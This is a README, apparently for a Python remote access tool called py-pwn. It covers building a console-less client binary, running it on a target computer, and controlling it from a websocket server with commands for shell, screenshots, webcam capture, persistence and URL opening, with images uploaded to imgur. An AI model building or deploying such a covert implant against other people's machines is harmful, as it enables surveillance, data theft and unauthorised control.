 # py-pwn

> A super simple python-based [RAT](https://www.geeksforgeeks.org/introduction-to-rat-remote-administration-tool/).

## Usage

1. Create `config.py` and update `PORT` in `server.py`

```python
config = {"uri": "ws://<your server ip>:<your port>", "imgur_key": "<your imgur api key here>"}
```

2. `$ pyinstaller --noconsole --onefile --hidden-import=pyscreenshot --hidden-import=pyimgur --hidden-import=cv2 --hidden-import=pyautogui client.py`

3. Double click the generated binary on a client computer while the server is running `server.py`.

4. Use the server to interactively control clients.

```
> scripts
type
say
ping
kill
shell
screenshot
msg_box
camshot
open_url
persist
> list
0 127.0.0.1/DESKTOP-ABC123/0
> interact 0
[127.0.0.1/DESKTOP-ABC123/0] >> open_url("https://www.youtube.com/watch?v=YddwkMJG1Jo")
```

5. _While_ the server is running you can add/edit scripts in [/scripts](https://github.com/sshh12/py-pwn/tree/master/scripts).

## How It Works

_As pseudo code_

### CLient

```
conn = connect_to_server_websocket()
while True:
    eval(conn.read())
```

### Server

```
server = run_websocket_server()
while True:
    cmd = input(' > ')
    script_name, args = parse(cmd)
    server.send_to_selected_client(read_file(script_name), args)
```
